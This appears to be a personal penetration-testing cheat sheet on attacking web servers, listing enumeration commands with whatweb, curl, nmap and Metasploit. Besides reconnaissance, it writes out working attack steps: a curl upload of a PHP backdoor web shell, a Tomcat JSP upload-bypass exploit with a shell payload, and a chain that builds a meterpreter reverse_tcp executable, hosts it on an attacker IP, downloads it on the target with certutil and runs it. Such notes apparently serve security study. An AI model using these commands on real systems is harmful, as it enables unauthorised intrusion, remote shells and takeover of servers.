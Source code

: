 # Table of Contents
1. [Overview](#Overview)
	1. Ports
	3. Usage
	4. Related Services
2. [Tools](#Tools)
	1. whatweb
	2. http
	3. dirb
	4. browsh
	5. lynx
	6. curl
	7. wget
	8. [nmap](#nmap)
	9. [msfconsole](#msfconsole)

---
# Overview

Used to host websites. 

## #Ports
- 80 : HTTP
- 443 : HTTPS
- 8080 : Common Alternative or proxy

## Usage
Use web-browser to access the site via hostname or IP.

## Related Services
- IIS : Windows HTTP Server
- NGINX : Server and Proxy
- Apache : server
- httpd : 

---
# #Tools

## whatweb
grabs information and runs tests
`wahtweb 192.168.32.3`

## http
grabs header information and html of page
`http 10.4.18.3`

## dirb
check out [Dir-Busting](../Tools/Dir-Busting.md)

## browsh
website enumeration, will render website in ascii
`browsh --startup-url http://10.4.16.3/Default.aspx`
- ctrl-w : to exit

## lynx
similar to browsh, more text oriented

## curl
grabs the page from url
- `curl -v http:www.google.com`
- -I : get HEAD only
- -v : verbose
- -X OPTIONS : supported methods
- `curl http://192.168.8.1/uploads/ --upload-file /usr/share/webshells/php/simple-backdoor.php` : upload a file

## wget 
grabs files from url

---

## #nmap

```bash
nmap -p80 --script http-enum,http-headers,http-methods,http-webdav-scan --script-args url-path=/ 10.3.24.160
```
`nmap -sV -p80 10.34.5.3`
- --script
	- http-enum
		- will show some dir
	- http-headers
		- grabs http header information, shows service version info
	- http-methods
		- --script-args url-path=/webdav/
	- http-webdav-scan
		- --script-args url-path=/webdav/
	- banner
		- return banner, version info

---

## #msfconsole
### Metasploit Framework Console
- use auxiliary/scanner/http/http_version
	- `set rhosts 192.15.43.3`
	- `options`
	- `run`
- use auxiliary/scanner/http/brute_dirs
	- `set rhosts 192.165.2.3`
	- `options`
	- `run`
- use auxiliary/scanner/http/robots_txt
	- `set rhosts 192.168.32.3`
	- `run`
- `search tpye:exploit tomcat` : search for tomcat

#### Apache Tomcat Example
1. `use exploit/multi/http/tomcat_jsp_upload_bypass`
	1. info : shows that exploit uploads a java shell
	2. `set payload java/jsp_shell_bin_tcp`
	3. `show options` : will notice you have payload options to set
	4. will get basic cmd shell access
2. `msfvenom -p windows/meterpreter/reverse_tcp LHOST-10.10.5.4 LPORT=1234 -f exe > meterpreter.exe`
3. `sudo python -m SimpleHTTPServer 80` : host the payload
4. `certutil -urlcache -f http://10.10.5.4/meterpreter.exe meterpreter.exe` : use inbuilt tool to dl the payload
5. set up MSF handler with payload windows/meterpreter/reverse_tcp
6. `.\meterpreter.exe` : launch payload to connect to handler

### Useful Modules
- auxiliary/scanner/http/apache_userdir_enum
- auxiliary/scanner/http/brute_dirs
- auxiliary/scanner/http/dir_scanner
- auxiliary/scanner/http/dir_listing
- auxiliary/scanner/http/http_put
- auxiliary/scanner/http/files_dir
- auxiliary/scanner/http/http_login
- auxiliary/scanner/http/http_header
- auxiliary/scanner/http/http_version
- auxiliary/scanner/http/robots_txt



